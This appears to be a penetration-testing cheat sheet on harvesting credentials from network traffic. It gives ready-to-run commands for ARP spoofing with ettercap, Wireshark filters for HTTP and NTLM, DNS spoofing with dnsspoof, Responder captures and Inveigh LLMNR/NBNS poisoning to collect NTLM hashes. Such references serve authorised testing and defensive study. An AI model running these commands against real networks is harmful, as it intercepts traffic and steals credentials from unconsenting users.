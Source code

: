 # Network Traffic

#### Harvesting Credentials via ARP Spoofing

- Using `Ettercap` for ARP Spoofing:
	Perform an ARP spoofing attack to intercept traffic between a target machine and its gateway.
	```bash
	ettercap -T -M arp:remote // <target_ip> // <gateway_ip>
	```

- Combine ARP Spoofing with Packet Capture Using `Wireshark`:
	To intercept credentials over cleartext protocols like HTTP or NTLM:
	1. Start ARP spoofing using `Ettercap` as shown above.
	2. Open Wireshark and begin capturing traffic on the same network interface.
	3. Use the following Wireshark filters to focus on cleartext protocols:
		- Filter for HTTP traffic:
			```bash
			http
			```
		- Filter for NTLM authentication:
			```bash
			ntlm
			```
	4. Inspect the captured packets for credentials transmitted in plaintext or poorly protected forms.

#### Harvesting Credentials via DNS Spoofing

- Using `dnsspoof` for DNS Spoofing:
	Conduct a DNS spoofing attack to redirect traffic intended for legitimate domains to a malicious server.
	```bash
	dnsspoof -i eth0 -f hosts.txt
	```

- Redirect Traffic and Harvest Credentials Using `Responder`:
	`Responder` can capture credentials by tricking clients into sending authentication requests through spoofed DNS responses:
	1. Create `hosts.txt`: Define the target domains you want to spoof, e.g.:
		```plaintext
		www.example.com 192.168.1.100
		```
	2. Run Responder to capture authentication attempts and credentials:
		```bash
		responder -I eth0 -rdw
		```

#### Harvesting Credentials with Scripts

- Using `Inveigh` for LLMNR/NBNS Poisoning:
	`Inveigh` is a PowerShell tool that can poison LLMNR and NBNS traffic to capture NTLMv1/NTLMv2 hashes.
	```powershell
	Invoke-Inveigh -NBNS -LLMNR -ConsoleOutput Y
	```
